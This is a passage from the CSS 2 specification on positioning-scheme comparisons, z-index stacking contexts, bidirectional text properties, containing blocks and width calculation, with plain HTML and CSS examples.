> **Note:** . The diagrams in this section are illustrative and not to scale. They are meant to highlight the differences between the various positioning schemes in CSS 2, and are not intended to be reference renderings of the examples given.

##### 9.8.1. Normal flow {#css2:comp-normal-flow}

Consider the following CSS declarations for *outer* and *inner* that do not alter the [normal flow](#css2:normal-flow) of boxes:

```css
#outer { color: red }
#inner { color: blue }
```

The P element contains all inline content: anonymous inline text and two SPAN elements. Therefore, all of the content will be laid out in an inline formatting context, within a containing block established by the P element, producing something like:


##### 9.8.2. Relative positioning {#css2:comp-relpos}

To see the effect of [relative positioning](#css2:relative-positioning), we specify:

```css
#outer { position: relative; top: -12px; color: red }
#inner { position: relative; top: 12px; color: blue }
```

Text flows normally up to the *outer* element. The *outer* text is then flowed into its normal flow position and dimensions at the end of line 1. Then, the inline boxes containing the text (distributed over three lines) are shifted as a unit by `-12px` (upwards).

The contents of *inner*, as a child of *outer*, would normally flow immediately after the words "of outer contents" (on line 1.5). However, the *inner* contents are themselves offset relative to the *outer* contents by `12px` (downwards), back to their original position on line 2.

Note that the content following *outer* is not affected by the relative positioning of *outer*.


Note also that had the offset of *outer* been `-24px`, the text of *outer* and the body text would have overlapped.

##### 9.8.3. Floating a box {#css2:comp-float}

Now consider the effect of [floating](#css2:floats) the *inner* element’s text to the right by means of the following rules:

```css
#outer { color: red }
#inner { float: right; width: 130px; color: blue }
```

Text flows normally up to the *inner* box, which is pulled out of the flow and floated to the right margin (its `width` has been assigned explicitly). Line boxes to the left of the float are shortened, and the document’s remaining text flows into them.


To show the effect of the `clear` property, we add a *sibling* element to the example:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
<HTML>
  <HEAD>
    <TITLE>Comparison of positioning schemes II</TITLE>
  </HEAD>
  <BODY>
    <P>Beginning of body contents.
      <SPAN id=outer> Start of outer contents.
      <SPAN id=inner> Inner contents.</SPAN>
      <SPAN id=sibling> Sibling contents.</SPAN>
      End of outer contents.</SPAN>
      End of body contents.
    </P>
  </BODY>
</HTML>
```

The following rules:

```css
#inner { float: right; width: 130px; color: blue }
#sibling { color: red }
```

cause the *inner* box to float to the right as before and the document’s remaining text to flow into the vacated space:


However, if the `clear` property on the *sibling* element is set to `right` (i.e., the generated *sibling* box will not accept a position next to floating boxes to its right), the *sibling* content begins to flow below the float:

```css
#inner { float: right; width: 130px; color: blue }
#sibling { clear: right; color: red }
```


##### 9.8.4. Absolute positioning {#css2:comp-abspos}

Finally, we consider the effect of [absolute positioning](#css2:absolute-positioning). Consider the following CSS declarations for *outer* and *inner*:

```css
#outer {
    position: absolute;
    top: 200px; left: 200px;
    width: 200px;
    color: red;
}
#inner { color: blue }
```

which cause the top of the *outer* box to be positioned with respect to its containing block. The containing block for a positioned box is established by the nearest positioned ancestor (or, if none exists, the [initial containing block](#css2:containing-block-details), as in our example). The top side of the *outer* box is `200px` below the top of the containing block and the left side is `200px` from the left side. The child box of *outer* is flowed normally with respect to its parent.


The following example shows an absolutely positioned box that is a child of a relatively positioned box. Although the parent *outer* box is not actually offset, setting its `position` property to `relative` means that its box may serve as the containing block for positioned descendants. Since the *outer* box is an inline box that is split across several lines, the first inline box’s top and left edges (depicted by thick dashed lines in the illustration below) serve as references for `top` and `left` offsets.

```css
#outer {
  position: relative;
  color: red
}
#inner {
  position: absolute;
  top: 200px; left: -100px;
  height: 130px; width: 130px;
  color: blue;
}
```

This results in something like the following:


If we do not position the *outer* box:

```css
#outer { color: red }
#inner {
  position: absolute;
  top: 200px; left: -100px;
  height: 130px; width: 130px;
  color: blue;
}
```

the containing block for *inner* becomes the [initial containing block](#css2:containing-block-details) (in our example). The following illustration shows where the *inner* box would end up in this case.


> **Example:** Relative and absolute positioning may be used to implement change bars, as shown in the following example. The following fragment:
>
> ```html
> <P style="position: relative; margin-right: 10px; left: 10px;">
> I used two red hyphens to serve as a change bar. They
> will "float" to the left of the line containing THIS
> <SPAN style="position: absolute; top: auto; left: -1em; color: red;">--</SPAN>
> word.</P>
> ```
>
> might result in something like:
>
> 
>
> First, the paragraph (whose containing block sides are shown in the illustration) is flowed normally. Then it is offset `10px` from the left edge of the containing block (thus, a right margin of `10px` has been reserved in anticipation of the offset). The two hyphens acting as change bars are taken out of the flow and positioned at the current line (due to 'top: auto'), `-1em` from the left edge of its containing block (established by the P in its final position). The result is that the change bars seem to "float" to the left of the current line.

#### 9.9. Layered presentation {#css2:layers}

##### 9.9.1. Specifying the stack level: the `z-index` property {#css2:z-index}

| Field | Value |
| --- | --- |
| Name: | **z-index** |
| [Value:](#css-values-4:value-defs) | auto \| `<integer>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

For a positioned box, the `z-index` property specifies:

1. The stack level of the box in the current stacking context.
2. Whether the box establishes a stacking context.

Values have the following meanings:

**`<integer>`**

: This integer is the stack level of the generated box in the current stacking context. The box also establishes a new stacking context.

****auto****

: The stack level of the generated box in the current stacking context is 0. The box does not establish a new stacking context unless it is the root element.

*In this section, the expression "in front of" means closer to the user as the user faces the screen.*

In CSS 2, each box has a position in three dimensions. In addition to their horizontal and vertical positions, boxes lie along a "z-axis" and are formatted one on top of the other. Z-axis positions are particularly relevant when boxes overlap visually. This section discusses how boxes may be positioned along the z-axis.

The order in which the rendering tree is painted onto the canvas is described in terms of stacking contexts. Stacking contexts can contain further stacking contexts. A stacking context is atomic from the point of view of its parent stacking context; boxes in other stacking contexts may not come between any of its boxes.

Each box belongs to one **stacking context**. Each positioned box in a given stacking context has an integer **stack level**, which is its position on the z-axis relative other stack levels within the same stacking context. Boxes with greater stack levels are always formatted in front of boxes with lower stack levels. Boxes may have negative stack levels. Boxes with the same stack level in a stacking context are stacked back-to-front according to document tree order.

The root element forms the root stacking context. Other stacking contexts are generated by any positioned element (including relatively positioned elements) having a computed value of `z-index` other than `auto`. Stacking contexts are not necessarily related to containing blocks. In future levels of CSS, other properties may introduce stacking contexts, for example '[opacity](#css-color-4:transparency)' [CSS3COLOR].

Within each stacking context, the following layers are painted in back-to-front order:

1. the background and borders of the element forming the stacking context.
2. the child stacking contexts with negative stack levels (most negative first).
3. the in-flow, non-inline-level, non-positioned descendants.
4. the non-positioned floats.
5. the in-flow, inline-level, non-positioned descendants, including inline tables and inline blocks.
6. the child stacking contexts with stack level 0 and the positioned descendants with stack level 0.
7. the child stacking contexts with positive stack levels (least positive first).

Within each stacking context, positioned elements with stack level 0 (in layer 6), non-positioned floats (layer 4), inline blocks (layer 5), and inline tables (layer 5), are painted as if those elements themselves generated new stacking contexts, except that their positioned descendants and any would-be child stacking contexts take part in the current stacking context.

This painting order is applied recursively to each stacking context. This description of stacking context painting order constitutes an overview of the detailed normative definition in [Appendix E.](#css2:elaborate-stacking-contexts)

> **Example:** In the following example, the stack levels of the boxes (named with their "id" attributes) are: "text2"=0, "image"=1, "text3"=2, and "text1"=3. The "text2" stack level is inherited from the root box. The others are specified with the `z-index` property.
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>   <HEAD>
>     <TITLE>Z-order positioning</TITLE>
>     <STYLE type="text/css">
>       .pile {
>         position: absolute;
>         left: 2in;
>         top: 2in;
>         width: 3in;
>         height: 3in;
>       }
>     </STYLE>
>   </HEAD>
>   <BODY>
>     <P>
>                   src="butterfly.png" alt="A butterfly image"
>            style="z-index: 1">
>
>     <DIV id="text1" class="pile"
>          style="z-index: 3">
>       This text will overlay the butterfly image.
>     </DIV>
>
>     <DIV id="text2">
>       This text will be beneath everything.
>     </DIV>
>
>     <DIV id="text3" class="pile"
>          style="z-index: 2">
>       This text will underlay text1, but overlay the butterfly image
>     </DIV>
>   </BODY>
> </HTML>
> ```

This example demonstrates the notion of *transparency*. The default behavior of the background is to allow boxes behind it to be visible. In the example, each box transparently overlays the boxes below it. This behavior can be overridden by using one of the existing  [background properties](#css2:background-properties).

#### 9.10. Text direction: the `direction` and `unicode-bidi` properties {#css2:direction}

[Conforming](#css2:conformance) user agents that do not support bidirectional text may ignore the `direction` and `unicode-bidi` properties described in this section. This exception includes UAs that render right-to-left characters simply because a font on the system contains them but do not support the concept of right-to-left text direction.

The characters in certain scripts are written from right to left. In some documents, in particular those written with the Arabic or Hebrew script, and in some mixed-language contexts, text in a single (visually displayed) block may appear with mixed directionality. This phenomenon is called **bidirectionality**, or "bidi" for short.

The Unicode standard ([UNICODE], [UAX9]) defines a complex algorithm for determining the proper directionality of text. The algorithm consists of an implicit part based on character properties, as well as explicit controls for embeddings and overrides. CSS 2 relies on this algorithm to achieve proper bidirectional rendering. The `direction` and `unicode-bidi` properties allow authors to specify how the elements and attributes of a document language map to this algorithm.

User agents that support bidirectional text must apply the Unicode bidirectional algorithm to every sequence of inline-level boxes uninterrupted by a forced ([bidi class B](http://www.unicode.org/reports/tr9/#Bidirectional_Character_Types)) break or block boundary. This sequence forms the "paragraph" unit in the bidirectional algorithm. The paragraph embedding level is set according to the value of the `direction` property of the containing block rather than by the heuristic given in steps P2 and P3 of the Unicode algorithm.

Because the directionality of a text depends on the structure and semantics of the document language, these properties should in most cases be used only by designers of document type descriptions (DTDs), or authors of special documents. If a default style sheet specifies these properties, authors and users should not specify rules to override them.

The HTML 4 specification ([HTML401], section 8.2) defines bidirectionality behavior for HTML elements. The style sheet rules that would achieve the bidi behavior specified in [HTML401] are given in [the sample style sheet](#css2:bidi). The HTML 4 specification also contains more information on bidirectionality issues.

| Field | Value |
| --- | --- |
| Name: | **direction** |
| [Value:](#css-values-4:value-defs) | ltr \| rtl \| inherit |
| [Initial:](#css-cascade-6:initial-values) | ltr |
| [Applies to:](#css-cascade-5:applies-to) | all elements, but see prose |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

This property specifies the base writing direction of blocks and the direction of embeddings and overrides (see `unicode-bidi`) for the Unicode bidirectional algorithm. In addition, it specifies such things as the direction of [table](#css2:tables) column layout, the direction of horizontal overflow, the position of an incomplete last line in a block in case of 'text-align: justify'.

Values for this property have the following meanings:

****ltr****

: Left-to-right direction.

****rtl****

: Right-to-left direction.

For the `direction` property to affect reordering in inline elements, the `unicode-bidi` property’s value must be `embed` or `override`.

> **Note:** ***Note.** The `direction` property, when specified for table column elements, is not inherited by cells in the column since columns are not the ancestors of the cells in the document tree. Thus, CSS cannot easily capture the "dir" attribute inheritance rules described in [HTML401], section 11.3.2.1.*

| Field | Value |
| --- | --- |
| Name: | **unicode-bidi** |
| [Value:](#css-values-4:value-defs) | normal \| embed \| bidi-override \| inherit |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements, but see prose |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |
| Media: | visual |

Values for this property have the following meanings:

****normal****

: The element does not open an additional level of embedding with respect to the bidirectional algorithm. For inline elements, implicit reordering works across element boundaries.

****embed****

: If the element is inline, this value opens an additional level of embedding with respect to the bidirectional algorithm. The direction of this embedding level is given by the `direction` property. Inside the element, reordering is done implicitly. This corresponds to adding a LRE (U+202A; for 'direction: ltr') or RLE (U+202B; for 'direction: rtl') at the start of the element and a PDF (U+202C) at the end of the element.

****bidi-override****

: For inline elements this creates an override. For block container elements this creates an override for inline-level descendants not within another block container element. This means that inside the element, reordering is strictly in sequence according to the `direction` property; the implicit part of the bidirectional algorithm is ignored. This corresponds to adding a LRO (U+202D; for 'direction: ltr') or RLO (U+202E; for 'direction: rtl') at the start of the element or at the start of each anonymous child block box, if any, and a PDF (U+202C) at the end of the element.

The final order of characters in each block container is the same as if the bidi control codes had been added as described above, markup had been stripped, and the resulting character sequence had been passed to an implementation of the Unicode bidirectional algorithm for plain text that produced the same line-breaks as the styled text. In this process, replaced elements with 'display: inline' are treated as neutral characters, unless their `unicode-bidi` property has a value other than `normal`, in which case they are treated as strong characters in the `direction` specified for the element. All other atomic inline-level boxes are treated as neutral characters always.

Please note that in order to be able to flow inline boxes in a uniform direction (either entirely left-to-right or entirely right-to-left), more inline boxes (including anonymous inline boxes) may have to be created, and some inline boxes may have to be split up and reordered before flowing.

Because the Unicode algorithm has a limit of *61 levels* of embedding, care should be taken not to use `unicode-bidi` with a value other than `normal` unless appropriate. In particular, a value of `inherit` should be used with extreme caution. However, for elements that are, in general, intended to be displayed as blocks, a setting of 'unicode-bidi: embed' is preferred to keep the element together in case display is changed to inline (see example below).

The following example shows an XML document with bidirectional text. It illustrates an important design principle: DTD designers should take bidi into account both in the language proper (elements and attributes) and in any accompanying style sheets. The style sheets should be designed so that bidi rules are separate from other style rules. The bidi rules should not be overridden by other style sheets so that the document language’s or DTD’s bidi behavior is preserved.

> **Example:** In this example, lowercase letters stand for inherently left-to-right characters and uppercase letters represent inherently right-to-left characters:
>
> ```xml
> <HEBREW>
>   <PAR>HEBREW1 HEBREW2 english3 HEBREW4 HEBREW5</PAR>
>   <PAR>HEBREW6 <EMPH>HEBREW7</EMPH> HEBREW8</PAR>
> </HEBREW>
> <ENGLISH>
>   <PAR>english9 english10 english11 HEBREW12 HEBREW13</PAR>
>   <PAR>english14 english15 english16</PAR>
>   <PAR>english17 <HE-QUO>HEBREW18 english19 HEBREW20</HE-QUO></PAR>
> </ENGLISH>
> ```
>
> Since this is XML, the style sheet is responsible for setting the writing direction. This is the style sheet:
>
> ```css
> /* Rules for bidi */
> HEBREW, HE-QUO  {direction: rtl; unicode-bidi: embed}
> ENGLISH         {direction: ltr; unicode-bidi: embed}
>
> /* Rules for presentation */
> HEBREW, ENGLISH, PAR  {display: block}
> EMPH                  {font-weight: bold}
> ```
>
> The HEBREW element is a block with a right-to-left base direction, the ENGLISH element is a block with a left-to-right base direction. The PARs are blocks that inherit the base direction from their parents. Thus, the first two PARs are read starting at the top right, the final three are read starting at the top left. Please note that HEBREW and ENGLISH are chosen as element names for explicitness only; in general, element names should convey structure without reference to language.
>
> The EMPH element is inline-level, and since its value for `unicode-bidi` is `normal` (the initial value), it has no effect on the ordering of the text. The HE-QUO element, on the other hand, creates an embedding.
>
> The formatting of this text might look like this if the line length is long:
>
> ```
>                5WERBEH 4WERBEH english3 2WERBEH 1WERBEH
>
>                                 8WERBEH 7WERBEH 6WERBEH
>
> english9 english10 english11 13WERBEH 12WERBEH
>
> english14 english15 english16
>
> english17 20WERBEH english19 18WERBEH
> ```
>
> Note that the HE-QUO embedding causes HEBREW18 to be to the right of english19.
>
> If lines have to be broken, it might be more like this:
>
> ```
>        2WERBEH 1WERBEH
>   -EH 4WERBEH english3
>                  5WERB
>
>    -EH 7WERBEH 6WERBEH
>                  8WERB
>
> english9 english10 en-
> glish11 12WERBEH
> 13WERBEH
>
> english14 english15
> english16
>
> english17 18WERBEH
> 20WERBEH english19
> ```
>
> Because HEBREW18 must be read before english19, it is on the line above english19. Just breaking the long line from the earlier formatting would not have worked. Note also that the first syllable from english19 might have fit on the previous line, but hyphenation of left-to-right words in a right-to-left context, and vice versa, is usually suppressed to avoid having to display a hyphen in the middle of a line.

### 10. Visual formatting model details {#css2:visudet}

#### 10.1. Definition of "containing block" {#css2:containing-block-details}

The position and size of an element’s box(es) are sometimes calculated relative to a certain rectangle, called the **containing block** of the element. The containing block of an element is defined as follows:

1. The containing block in which the root element lives is a rectangle called the **initial containing block**. For continuous media, it has the dimensions of the [viewport](#css2:viewport) and is anchored at the canvas origin; it is the page area for paged media. The `direction` property of the initial containing block is the same as for the root element.
2. For other elements, if the element’s position is `relative` or `static`, the containing block is formed by the content edge of the nearest [block container](#css2:block-boxes) ancestor box.
3. If the element has 'position: fixed', the containing block is established by the [viewport](#css2:viewport) in the case of continuous media or the page area in the case of paged media.
4. If the element has 'position: absolute', the containing block is established by the nearest ancestor with a `position` of `absolute`, `relative` or `fixed`, in the following way:

  1. In the case that the ancestor is an inline element, the containing block is the bounding box around the padding boxes of the first and the last inline boxes generated for that element. In CSS 2, if the inline element is split across multiple lines, the containing block is undefined.
  2. Otherwise, the containing block is formed by the padding edge of the ancestor.

   If there is no such ancestor, the containing block is the initial containing block.

In paged media, an absolutely positioned element is positioned relative to its containing block ignoring any page breaks (as if the document were continuous). The element may subsequently be broken over several pages.

For absolutely positioned content that resolves to a position on a page other than the page being laid out (the current page), or resolves to a position on the current page which has already been rendered for printing, printers may place the content

- on another location on the current page,
- on a subsequent page, or
- may omit it.

> **Note:** that a block-level element that is split over several pages may have a different width on each page and that there may be device-specific limits.

> **Example:** With no positioning, the containing blocks (C.B.) in the following document:
>
> ```html
> <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN">
> <HTML>
>    <HEAD>
>       <TITLE>Illustration of containing blocks</TITLE>
>    </HEAD>
>    <BODY id="body">
>       <DIV id="div1">
>       <P id="p1">This is text in the first paragraph...</P>
>       <P id="p2">This is text <EM id="em1"> in the
>       <STRONG id="strong1">second</STRONG> paragraph.</EM></P>
>       </DIV>
>    </BODY>
> </HTML>
> ```
>
> are established as follows:
>
> | For box generated by | **C.B. is established by** |
> | --- | --- |
> | html | initial C.B. (UA-dependent) |
> | body | html |
> | div1 | body |
> | p1 | div1 |
> | p2 | div1 |
> | em1 | p2 |
> | strong1 | p2 |
>
> If we position "div1":
>
> ```css
> #div1 { position: absolute; left: 50px; top: 50px }
> ```
>
> its containing block is no longer "body"; it becomes the initial containing block (since there are no other positioned ancestor boxes).
>
> If we position "em1" as well:
>
> ```css
> #div1 { position: absolute; left: 50px; top: 50px }
> #em1  { position: absolute; left: 100px; top: 100px }
> ```
>
> the table of containing blocks becomes:
>
> | For box generated by | **C.B. is established by** |
> | --- | --- |
> | html | initial C.B. (UA-dependent) |
> | body | html |
> | div1 | initial C.B. |
> | p1 | div1 |
> | p2 | div1 |
> | em1 | div1 |
> | strong1 | em1 |
>
> By positioning "em1", its containing block becomes the nearest positioned ancestor box (i.e., that generated by "div1").

#### 10.2. Content width: the `width` property {#css2:the-width-property}

| Field | Value |
| --- | --- |
| Name: | **width** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| auto \| inherit |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table rows, and row groups |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage or `auto` as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

This property specifies the content width of boxes.

This property does not apply to non-replaced [inline](#css2:inline-boxes) elements. The content width of a non-replaced inline element’s boxes is that of the rendered content within them (*before* any relative offset of children). Recall that inline boxes flow into line boxes. The width of line boxes is given by the their [containing block](#css2:containing-block), but may be shorted by the presence of [floats](#css2:floats).

Values have the following meanings:

**`<length>`**

: Specifies the width of the content area using a length unit.

**`<percentage>`**

: Specifies a percentage width. The percentage is calculated with respect to the width of the generated box’s [containing block](#css2:containing-block). If the containing block’s width depends on this element’s width, then the resulting layout is undefined in CSS 2.  Note: For absolutely positioned elements whose containing block is based on a block container element, the percentage is calculated with respect to the width of the *padding box* of that element. This is a change from CSS1, where the percentage width was always calculated with respect to the *content box* of the parent element.

****auto****

: The width depends on the values of other properties. See the sections below.

Negative values for `width` are illegal.

> **Example:** For example, the following rule fixes the content width of paragraphs at 100 pixels:
>
> ```css
> p { width: 100px }
> ```

#### 10.3. Calculating widths and margins {#css2:Computing_widths_and_margins}

The values of an element’s `width`, `margin-left`, `margin-right`, `left` and `right` properties as used for layout depend on the type of box generated and on each other. (The value used for layout is sometimes referred to as the used value.) In principle, the values used are the same as the computed values, with `auto` replaced by some suitable value, and percentages calculated based on the containing block, but there are exceptions. The following situations need to be distinguished:

1. inline, non-replaced elements
2. inline, replaced elements
3. block-level, non-replaced elements in normal flow
4. block-level, replaced elements in normal flow
5. floating, non-replaced elements
6. floating, replaced elements
7. absolutely positioned, non-replaced elements
8. absolutely positioned, replaced elements
9. `inline-block`, non-replaced elements in normal flow
10. `inline-block`, replaced elements in normal flow

For Points 1-6 and 9-10, the values of `left` and `right` in the case of relatively positioned elements are determined by the rules in [section 9.4.3.](#css2:relative-positioning)

> **Note:** ***Note.** The used value of `width` calculated below is a tentative value, and may have to be calculated multiple times, depending on `min-width` and `max-width`, see the section [Minimum and maximum widths](#css2:min-max-widths) below.*

##### 10.3.1. Inline, non-replaced elements {#css2:inline-width}

The `width` property does not apply. A computed value of `auto` for `margin-left` or `margin-right` becomes a used value of `0`.

##### 10.3.2. Inline, replaced elements {#css2:inline-replaced-width}

A computed value of `auto` for `margin-left` or `margin-right` becomes a used value of `0`.

If `height` and `width` both have computed values of `auto` and the element also has an intrinsic width, then that intrinsic width is the used value of `width`.

If `height` and `width` both have computed values of `auto` and the element has no intrinsic width, but does have an intrinsic height and intrinsic ratio; or if `width` has a computed value of `auto`, `height` has some other computed value, and the element does have an intrinsic ratio; then the used value of `width` is:

> (used height) * (intrinsic ratio)

If `height` and `width` both have computed values of `auto` and the element has an intrinsic ratio but no intrinsic height or width, then the used value of `width` is undefined in CSS 2. However, it is suggested that, if the containing block’s width does not itself depend on the replaced element’s width, then the used value of `width` is calculated from the constraint equation used for block-level, non-replaced elements in normal flow.

Otherwise, if `width` has a computed value of `auto`, and the element has an intrinsic width, then that intrinsic width is the used value of `width`.

Otherwise, if `width` has a computed value of `auto`, but none of the conditions above are met, then the used value of `width` becomes 300px. If 300px is too wide to fit the device, UAs should use the width of the largest rectangle that has a 2:1 ratio and fits the device instead.

##### 10.3.3. Block-level, non-replaced elements in normal flow {#css2:blockwidth}

The following constraints must hold among the used values of the other properties:

> `margin-left` + `border-left-width` + `padding-left` + `width` + `padding-right` + `border-right-width` + `margin-right` = width of [containing block](#css2:containing-block-details)

If `width` is not `auto` and `border-left-width` + `padding-left` + `width` + `padding-right` + `border-right-width` (plus any of `margin-left` or `margin-right` that are not `auto`) is larger than the width of the containing block, then any `auto` values for `margin-left` or `margin-right` are, for the following rules, treated as zero.

If all of the above have a computed value other than `auto`, the values are said to be "over-constrained" and one of the used values will have to be different from its computed value. If the `direction` property of the containing block has the value `ltr`, the specified value of `margin-right` is ignored and the value is calculated so as to make the equality true. If the value of `direction` is `rtl`, this happens to `margin-left` instead.

If there is exactly one value specified as `auto`, its used value follows from the equality.

If `width` is set to `auto`, any other `auto` values become `0` and `width` follows from the resulting equality.

If both `margin-left` and `margin-right` are `auto`, their used values are equal. This horizontally centers the element with respect to the edges of the containing block.

##### 10.3.4. Block-level, replaced elements in normal flow {#css2:block-replaced-width}

The used value of `width` is determined as for [inline replaced elements](#css2:inline-replaced-width). Then the rules [for non-replaced block-level elements](#css2:blockwidth) are applied to determine the margins.

##### 10.3.5. Floating, non-replaced elements {#css2:float-width}

If `margin-left`, or `margin-right` are computed as `auto`, their used value is `0`.

If `width` is computed as `auto`, the used value is the "shrink-to-fit" width.

Calculation of the shrink-to-fit width is similar to calculating the width of a table cell using the automatic table layout algorithm. Roughly: calculate the preferred width by formatting the content without breaking lines other than where explicit line breaks occur, and also calculate the preferred *minimum* width, e.g., by trying all possible line breaks. CSS 2 does not define the exact algorithm. Thirdly, find the *available width*: in this case, this is the width of the containing block minus the used values of `margin-left`, `border-left-width`, `padding-left`, `padding-right`, `border-right-width`, `margin-right`, and the widths of any relevant scroll bars.

Then the shrink-to-fit width is: min(max(preferred minimum width, available width), preferred width).

##### 10.3.6. Floating, replaced elements {#css2:float-replaced-width}

If `margin-left` or `margin-right` are computed as `auto`, their used value is `0`. The used value of `width` is determined as for [inline replaced elements](#css2:inline-replaced-width).

##### 10.3.7. Absolutely positioned, non-replaced elements {#css2:abs-non-replaced-width}

For the purposes of this section and the next, the term "static position" (of an element) refers, roughly, to the position an element would have had in the normal flow. More precisely:

- The **static-position containing block** is the containing block of a hypothetical box that would have been the first box of the element if its specified `position` value had been `static` and its specified `float` had been `none`. (Note that due to the rules in [section 9.7](#css2:dis-pos-flo) this hypothetical calculation might require also assuming a different computed value for `display`.)
- The static position for `left` is the distance from the left edge of the containing block to the left margin edge of a hypothetical box that would have been the first box of the element if its `position` property had been `static` and `float` had been `none`. The value is negative if the hypothetical box is to the left of the containing block.
- The static position for `right` is the distance from the right edge of the containing block to the right margin edge of the same hypothetical box as above. The value is positive if the hypothetical box is to the left of the containing block’s edge.

But rather than actually calculating the dimensions of that hypothetical box, user agents are free to make a guess at its probable position.

For the purposes of calculating the static position, the containing block of fixed positioned elements is the initial containing block instead of the viewport, and all scrollable boxes should be assumed to be scrolled to their origin.

The constraint that determines the used values for these elements is:

> `left` + `margin-left` + `border-left-width` + `padding-left` + `width` + `padding-right` + `border-right-width` + `margin-right` + `right` = width of containing block

If all three of `left`, `width`, and `right` are `auto`: First set any `auto` values for `margin-left` and `margin-right` to 0. Then, if the `direction` property of the element establishing the static-position containing block is `ltr` set `left` to the [static position](#css2:static-position) and apply rule number three below; otherwise, set `right` to the [static position](#css2:static-position) and apply rule number one below.

If none of the three is `auto`: If both `margin-left` and `margin-right` are `auto`, solve the equation under the extra constraint that the two margins get equal values, unless this would make them negative, in which case when direction of the containing block is `ltr` (`rtl`), set `margin-left` (`margin-right`) to zero and solve for `margin-right` (`margin-left`). If one of `margin-left` or `margin-right` is `auto`, solve the equation for that value. If the values are over-constrained, ignore the value for `left` (in case the `direction` property of the containing block is `rtl`) or `right` (in case `direction` is `ltr`) and solve for that value.

Otherwise, set `auto` values for `margin-left` and `margin-right` to 0, and pick the one of the following six rules that applies.

1. `left` and `width` are `auto` and `right` is not `auto`, then the width is shrink-to-fit. Then solve for `left`
2. `left` and `right` are `auto` and `width` is not `auto`, then if the `direction` property of the element establishing the static-position containing block is `ltr` set `left` to the [static position](#css2:static-position), otherwise set `right` to the [static position](#css2:static-position). Then solve for `left` (if 'direction is `rtl`) or `right` (if `direction` is `ltr`).
3. `width` and `right` are `auto` and `left` is not `auto`, then the width is shrink-to-fit . Then solve for `right`
4. `left` is `auto`, `width` and `right` are not `auto`, then solve for `left`
5. `width` is `auto`, `left` and `right` are not `auto`, then solve for `width`
6. `right` is `auto`, `left` and `width` are not `auto`, then solve for `right`

Calculation of the shrink-to-fit width is similar to calculating the width of a table cell using the automatic table layout algorithm. Roughly: calculate the preferred width by formatting the content without breaking lines other than where explicit line breaks occur, and also calculate the preferred *minimum* width, e.g., by trying all possible line breaks. CSS 2 does not define the exact algorithm. Thirdly, calculate the *available width*: this is found by solving for `width` after setting `left` (in case 1) or `right` (in case 3) to 0.

Then the shrink-to-fit width is: min(max(preferred minimum width, available width), preferred width).

##### 10.3.8. Absolutely positioned, replaced elements {#css2:abs-replaced-width}

In this case, [section 10.3.7](#css2:abs-non-replaced-width) applies up through and including the constraint equation, but the rest of [section 10.3.7](#css2:abs-non-replaced-width) is replaced by the following rules:

1. The used value of `width` is determined as for [inline replaced elements](#css2:inline-replaced-width). If `margin-left` or `margin-right` is specified as `auto` its used value is determined by the rules below.
2. If both `left` and `right` have the value `auto`, then if the `direction` property of the element establishing the static-position containing block is `ltr`, set `left` to the static position; else if `direction` is `rtl`, set `right` to the static position.
3. If `left` or `right` are `auto`, replace any `auto` on `margin-left` or `margin-right` with `0`.
4. If at this point both `margin-left` and `margin-right` are still `auto`, solve the equation under the extra constraint that the two margins must get equal values, unless this would make them negative, in which case when the direction of the containing block is `ltr` (`rtl`), set `margin-left` (`margin-right`) to zero and solve for `margin-right` (`margin-left`).
5. If at this point there is an `auto` left, solve the equation for that value.
6. If at this point the values are over-constrained, ignore the value for either `left` (in case the `direction` property of the containing block is `rtl`) or `right` (in case `direction` is `ltr`) and solve for that value.

##### 10.3.9. `inline-block`, non-replaced elements in normal flow {#css2:inlineblock-width}

If `width` is `auto`, the used value is the [shrink-to-fit](#css2:shrink-to-fit-float) width as for floating elements.

A computed value of `auto` for `margin-left` or `margin-right` becomes a used value of `0`.

##### 10.3.10. `inline-block`, replaced elements in normal flow {#css2:inlineblock-replaced-width}

Exactly as [inline replaced elements.](#css2:inline-replaced-width)

#### 10.4. Minimum and maximum widths: `min-width` and `max-width` {#css2:min-max-widths}

| Field | Value |
| --- | --- |
| Name: | **min-width** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| inherit |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table rows, and row groups |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to width of containing block |
| [Computed value:](#css-cascade-6:computed) | the percentage as specified or the absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |
| Media: | visual |

| Field | Value |
| --- | --- |
| Name: | **max-width** |
| [Value:](#css-values-4:value-defs) | `<length>` \| `<percentage>` \| none \| inherit |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements but non-replaced inline elements, table rows, and row groups |
